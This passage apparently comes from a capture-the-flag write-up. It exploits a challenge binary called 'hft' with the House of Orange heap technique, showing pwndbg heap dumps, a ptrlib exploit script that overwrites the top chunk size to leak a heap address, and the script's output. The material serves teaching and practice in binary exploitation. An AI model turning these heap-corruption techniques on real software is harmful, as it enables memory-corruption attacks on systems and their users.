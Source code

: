 ```python
sock.sh()
```
Attach from another terminal after execution.  
```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> vis
~~~
0x55555555a270  0x0000000000000000      0x0000000000000000      ................
0x55555555a280  0x0000000000000000      0x0000000000000000      ................
0x55555555a290  0x0000000000000000      0x0000000000000021      ........!.......
0x55555555a2a0  0x0000000000000018      0x0000000000000001      ................
0x55555555a2b0  0x0000696b6f746173      0x0000000000020d51      satoki..Q.......         <-- Top chunk
```
As per the source, it is secured from the heap.  
First of all, to solve the problem of not having 'free', it seems that there is a method called House of Orange that rewrites 'Top chunk' and calls '_int_free' when 'malloc'.  
According to a survey by experts, "'If the lower 12-bit is not broken, the assertion error will not occur!'" 
If you overflow the 'Top chunk' of the above heap from '0x0000000000020d51' to '0x0000000000000d51' and perform a larger 'malloc' again, a new heap will be allocated in another area.  
At that time, since it is determined that there is another area under the current heap by rewriting, heap merging does not occur, and the remaining '0xd51' is 'free' and leads to a free list. 
Since it can be 'malloc' as many times as you like, you can freely create 'tcachebins' and 'unsortedbins' by rewriting the size well when using new regions and securing new areas.
This solves the problem of not having 'free'.  
Using this operation, you can leak the address of the heap by connecting to an 'unsortedbin' and 'mallocating' it again。  
```python
from ptrlib import *

elf = ELF("./hft")
libc = ELF("./libc.so.6")

sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x0) + b"A" * 8 + p64(0xd51))

sock.sendafter(":[PKT_RES]\n", p64(0xD29))
sock.sendline(p64(0x0))

sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
print(hex(u64(leak)))

sock.sh()
```
Execute.  
```bash
$ python test.py
[+] __init__: Successfully created new process (PID=153364)
0x55555555a2b0
PKT_INFO:[PKT_RES]
[ptrlib]$
```
The heap was as follows.  
```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> vis
~~~
```